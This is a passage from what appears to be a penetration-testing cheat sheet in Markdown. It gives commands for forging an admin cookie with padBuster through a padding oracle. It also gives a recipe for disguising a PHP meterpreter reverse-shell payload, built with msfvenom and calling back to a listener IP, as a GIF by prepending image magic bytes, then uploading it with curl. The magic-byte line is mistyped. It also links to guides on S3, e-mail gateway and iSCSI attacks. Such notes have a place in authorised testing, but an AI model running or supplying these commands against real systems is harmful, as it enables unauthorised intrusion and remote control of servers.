 > ###### Examples

```
Kali> padBuster.pl http://$TARGET "ENC-COOKIE-TEXT" 8
                                -cookies "ENC-COOKIE"
                                -plaintext '{"user":"admin","role":"admin"}'
```

##### AWS

> **Resources**

[AWS PENETRATION TESTING PART 1. S3 BUCKETS](https://www.virtuesecurity.com/blog/aws-penetration-testing-s3-buckets/)

##### File Upload

> ###### Make a backdoor GIF

```
# As a note, try to overwrite the magic bytes of your backdoor with a valid image
# so that the check will validate. This includes Content-Type.
Kali> msfvenom --list | grep php
Kali> msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.15.237 LPORT=54321 -o evil.php
Kali> echo “FFD8FFEo” | xxd -r -p > evil.gif
Kali> cat evil.php >> evil.gif
```

> ###### Upload From CLI

```
Kali> curl -X POST
                -F "field1=test"
                -F "file=@/home/user/evil.gif"
                http://$TARGET/upload.php
                --cookie "cookie"
```

## E-Mail

**Resources**

[How to Bypass E-Mail gateways using common payloads](https://www.youtube.com/watch?v=eZxWDCetqkE)

## iSCSI

**Resources**

[An interesting route to domain admin via ISCSI](https://www.pentestpartners.com/security-blog/an-interesting-route-to-domain-admin-iscsi/)

## Databases

##### MySQL

> ###### Resources
